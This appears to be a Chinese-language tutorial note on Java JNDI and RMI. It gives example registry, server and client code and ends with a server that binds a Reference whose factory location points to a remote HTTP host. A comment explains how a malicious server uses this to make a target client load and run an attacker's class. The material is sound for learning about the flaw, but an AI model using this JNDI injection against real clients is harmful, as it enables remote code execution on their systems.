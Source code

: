    > https://docs.oracle.com/javase/8/docs/technotes/guides/jndi/jndi-rmi.html
   > 还有各种 wiki 的查询。

### 1.2 创建一个 JNDI 和 RMI 混合使用的例子

1. RMI 注册中心和服务端：
    ```java
    public class RMIServer {
        public static void main(String[] args) throws RemoteException, AlreadyBoundException {
            IMyRemote myRemoteObj = new MyRemoteImpl();
            // 创建注册中心
            LocateRegistry.createRegistry(1099);
            // 获取注册中心（这里采用注册中心和服务端分离的写法）
            Registry registry = LocateRegistry.getRegistry("127.0.0.1", 1099);
            // 绑定服务
            registry.bind("myRemote", myRemoteObj);
        }
    }
    ```

2. JDNI 服务端：
    ```java
    public class JNDIRMIServer {
        public static void main(String[] args) throws NamingException, RemoteException {
            // 这里在 RMIServer 中已经创建了注册中心，因此这里不用创建
            InitialContext initialContext = new InitialContext();
            // 然后由于 RMIServer 里面调用了 bind，因此这里要 rebind
            initialContext.rebind("rmi://localhost:1099/myRemote", new MyRemoteImpl());
        }
    }
    ```

3. JDNI 客户端
    ```java
    public class JNDIRMIClient {
        public static void main(String[] args) throws NamingException, RemoteException {
            InitialContext initialContext = new InitialContext();
            // 从 JNDI 的层面上调用（本质上是调用原生的 RMI）
            IMyRemote myRemoteObj = (IMyRemote) initialContext.lookup("rmi://127.0.0.1:1099/myRemote");
            // myRemoteObj.saySth("JNDI");
        }
    }
    ```

4. 这里 JNDI 的底层还是走的 RMI 底层，因此 RMI 的相关漏洞，JNDI 也存在。

### 1.3 `Reference` 类

1. `Reference` 的介绍详见：

    > https://fynch3r.github.io/%E6%90%9E%E6%87%82JNDI/

2. 举个例子，对 JNDI 服务端进行改写：
    ```java
    public static void main(String[] args) throws NamingException, RemoteException {
        // 这里在 RMIServer 中已经创建了注册中心，因此这里不用创建
        InitialContext initialContext = new InitialContext();
        // 然后由于 RMIServer 里面调用了 bind，因此这里要 rebind
        // initialContext.rebind("rmi://localhost:1099/myRemote", new MyRemoteImpl());
        // 这里需要注意，TestRef 这个类不能有包 package
        Reference reference = new Reference("TestRef.class", "TestRef", "http://localhost:7777/");
        initialContext.rebind("rmi://localhost:1099/myRemote", reference);
        // todo 漏洞成因：攻击客户端（目标），创建恶意服务端，指定恶意的 factoryLocation，将其引导到一个有恶意类的地方（这个恶意类和 factory 同名），那么客户端只要访问对应的 rmi 服务，就会触发漏洞。
    }
    ```
